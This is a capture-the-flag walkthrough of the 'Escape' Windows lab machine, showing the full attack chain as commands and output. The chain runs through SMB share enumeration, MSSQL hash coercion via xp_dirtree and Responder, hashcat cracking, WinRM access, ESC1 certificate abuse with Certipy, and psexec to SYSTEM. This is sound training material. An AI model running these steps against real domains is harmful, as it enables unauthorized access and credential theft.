


Escape is a medium-difficulty Windows box. The exploitation path involves enumerating shares to capture a hash through MSSQL. Afterwards, we find credentials inside a .bak file, which allows us to exploit the ESC1 vulnerability.


As usual, we begin with an Nmap scan to identify open ports and services.


```zsh
➜  Escape nmap -p- --min-rate 10000 10.129.228.253 -oN port.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-01 00:04 CDT
Nmap scan report for 10.129.228.253
Host is up (0.0079s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49694/tcp open  unknown
49715/tcp open  unknown
49725/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```

Accessing the shares via a null session didn’t work, so I attempted to connect using the guest account.


```zsh
➜  Escape netexec smb sequel.htb -u 'guest' -p '' --shares
SMB         10.129.228.253  445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.253  445    DC               [+] sequel.htb\guest: 
SMB         10.129.228.253  445    DC               [*] Enumerated shares
SMB         10.129.228.253  445    DC               Share           Permissions     Remark
SMB         10.129.228.253  445    DC               -----           -----------     ------
SMB         10.129.228.253  445    DC               ADMIN$                          Remote Admin
SMB         10.129.228.253  445    DC               C$                              Default share
SMB         10.129.228.253  445    DC               IPC$            READ            Remote IPC
SMB         10.129.228.253  445    DC               NETLOGON                        Logon server share 
SMB         10.129.228.253  445    DC               Public          READ            
SMB         10.129.228.253  445    DC               SYSVOL                          Logon server share 
```


Now, let’s use impacket-smbclient to connect to the available share.


```zsh
➜  Escape impacket-smbclient sequel.htb/guest@dc.sequel.htb -no-pass
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Public
# ls
drw-rw-rw-          0  Sat Nov 19 05:51:25 2022 .
drw-rw-rw-          0  Sat Nov 19 05:51:25 2022 ..
-rw-rw-rw-      49551  Sat Nov 19 05:51:25 2022 SQL Server Procedures.pdf
```

I found a file called "SQL Server Procedures.pdf". I downloaded it to check its contents.

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

The document contains information about Microsoft SQL Server. Interestingly, there's a credential listed under the "Bonus" section — definitely worth testing.


When I tested the credential, it turned out to be valid.


```zsh
➜  Escape netexec mssql sequel.htb -u publicuser -p [REDACTED]
MSSQL       10.129.228.253  1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL       10.129.228.253  1433   DC               [-] sequel.htb\publicuser:[REDACTED] (Login failed for user 'sequel\Guest'. Please try again with or without '--local-auth')
➜  Escape netexec mssql sequel.htb -u publicuser -p [REDACTED] --local-auth
MSSQL       10.129.228.253  1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL       10.129.228.253  1433   DC               [+] DC\publicuser:[REDACTED]
```


Now, let's connect using mssqlclient.


```zsh
➜  Escape mssqlclient.py publicuser@10.129.228.253
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> 
```

Here, you can enumerate the database or try one of the common methods like using xp_cmdshell, but it doesn't return anything. Instead, I used xp_dirtree with my IP and captured the hash of the sql_svc user.

```zsh
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.14.25\c
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)> 
```


```zsh
➜  Escape sudo responder -wrfv -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

[SNIP]

[+] Current Session Variables:
    Responder Machine Name     [WIN-TJACBGOTAHA]
    Responder Domain Name      [XVMG.LOCAL]
    Responder DCE-RPC Port     [49661]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.228.253
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:033c69f19dafbd70:E5F98287E44C7AEDEF42FFBCA914487E:0101000000000000007945751DEADB01A0A07373FEF9488E0000000002000800580056004D004XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX580056004D0047002E004C004F00430041004C0003001400580056004D0047002E004C004F00430041004C0005001400580056004D0047002E004C004F00430041004C0007000800007945751DEADB0106000400020000000800300030000000000000000000000000300000BB6D1B752CB592993971B65096325BDEDD0947EF15D51684C1BDE106F6482A280A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320035000000000000000000
[*] Skipping previously captured hash for sequel\sql_svc
[*] Skipping previously captured hash for sequel\sql_svc
```

Crack the hash offline using Hashcat.


```zsh
➜  Escape hashcat -a 0 -m 5600 sql_svc.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD EPYC 7543 32-Core Processor, skipped

OpenCL API (OpenCL 2.1 LINUX) - Platform #2 [Intel(R) Corporation]
==================================================================
* Device #2: AMD EPYC 7543 32-Core Processor, 3923/7910 MB (988 MB allocatable), 4MCU
[SNIP]

SQL_SVC::sequel:033c69f19dafbd70:e5f98287e44c7aedef42ffbca914487e:0101000000000000007945751deadb01a0a07373fef9488e0000000002000800580056004d004XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX580056004d0047002e004c004f00430041004c0003001400580056004d0047002e004c004f00430041004c0005001400580056004d0047002e004c004f00430041004c0007000800007945751deadb0106000400020000000800300030000000000000000000000000300000bb6d1b752cb592993971b65096325bdedd0947ef15d51684c1bde106f6482a280a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320035000000000000000000:[REDACTED]
                                                          
[SNIP]

Started: Tue Jul  1 00:20:20 2025
Stopped: Tue Jul  1 00:20:35 2025
```

We can use WinRM

```zsh
➜  Escape netexec winrm sequel.htb -u sql_svc -p [REDACTED] 
WINRM       10.129.228.253  5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.129.228.253  5985   DC               [+] sequel.htb\sql_svc:[REDACTED] (Pwn3d!)
```


Under the `C:\SQLServer\Logs` directory, we found a file containing error logs, and inside it, a credential.

```zsh
*Evil-WinRM* PS C:\SQLServer\Logs> type ERRORLOG.BAK
2022-11-18 13:43:05.96 Server      Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
	Sep 24 2019 13:48:23
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

[SNIP]
2022-11-18 13:43:07.48 Logon       Logon failed for user '[REDACTED]'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
2022-11-18 13:43:07.76 spid51      Using 'xpstar.dll' version '2019.150.2000' to execute extended stored procedure 'xp_sqlagent_is_starting'. This is an informational message only; no user action is required.
2022-11-18 13:43:08.24 spid51      Changed database context to 'master'.
2022-11-18 13:43:08.24 spid51      Changed language setting to us_english.
2022-11-18 13:43:09.29 spid9s      SQL Server is terminating in response to a 'stop' request from Service Control Manager. This is an informational message only. No user action is required.
2022-11-18 13:43:09.31 spid9s      .NET Framework runtime has been stopped.
2022-11-18 13:43:09.43 spid9s      SQL Trace was stopped due to server shutdown. Trace ID = '1'. This is an informational message only; no user action is required.
```

We connect via WinRM using the credential we found and capture the first flag.


```zsh
➜  Escape evil-winrm -i 10.129.228.253 -u ryan.cooper -p [REDACTED]
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> type ../Desktop/user.txt
[REDACTED]
```

Immediately after, we use Certipy and see that there is an ESC1 vulnerable certificate.
This exploit is one of the simplest vulnerabilities to exploit.

```zsh
➜  Escape certipy find -u ryan.cooper -p [REDACTED] -dc-ip 10.129.228.253 -dns-tcp -ns 10.129.228.253 -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

We request a certificate using the Administrator's name.


```zsh
➜  Escape certipy req -u 'ryan.cooper@sequel.htb' -p '[REDACTED]' -dc-ip '10.129.228.253' -target 'dc.sequel.htb' -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn 'administrator@sequel.htb' -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'dc.sequel.htb' at '10.129.228.253'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.228.253[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.228.253[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 14
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

We authenticate using the file it provided us.


```zsh
➜  Escape certipy auth -pfx 'administrator.pfx' -dc-ip '10.129.228.253'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:[REDACTED]
```

Finally, let's connect to the system using psexec as an administrator.

```zsh
➜  Escape impacket-psexec sequel.htb/administrator@dc.sequel.htb -k -no-pass
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.sequel.htb.....
[*] Found writable share ADMIN$
[*] Uploading file JbpzJfXi.exe
[*] Opening SVCManager on dc.sequel.htb.....
[*] Creating service gFMZ on dc.sequel.htb.....
[*] Starting service gFMZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


